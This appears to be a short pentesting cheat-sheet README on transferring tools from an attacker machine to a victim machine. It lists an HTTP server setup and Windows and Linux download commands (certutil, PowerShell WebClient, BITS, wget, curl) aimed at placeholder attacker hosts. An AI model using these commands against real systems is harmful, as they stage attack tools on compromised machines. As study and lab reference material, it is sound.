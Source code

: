 # tool-transfer

In the beginning of my journey I was struggling with getting my scripts and programs from machine to another. In this repo my objective is to find every way you can transfer your tools!

### HTTP

Set up an HTTP server on your attacker machine and download the files from the victim machine. The hosted file must be in the same directory where you execute this command.

python3 -m http.server $port$

python -m SimpleHTTPServer $port$

From the victim machine you can use any browser to navigate to the IP address and download the files or the following commands:

### CMD

wget http://$attacker_address$/$filename$

certutil -urlcache -split -f "http://$attacker_ip$:$port$/$filename$" $output-filename$

### Powershell

powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATTACKER_IP$:$port$/$filename$','$output-filename$')"

curl http://$attacker_address$/$filename$ -O $output-filename$
or
Invoke-WebRequest http://$attacker_address$/$filename$ -O $output-filename$

powershell.exe -c (Start-BitsTransfer -Source "http://$attacker_ip$/$filename$ -Destination C:\temp\$filename$")
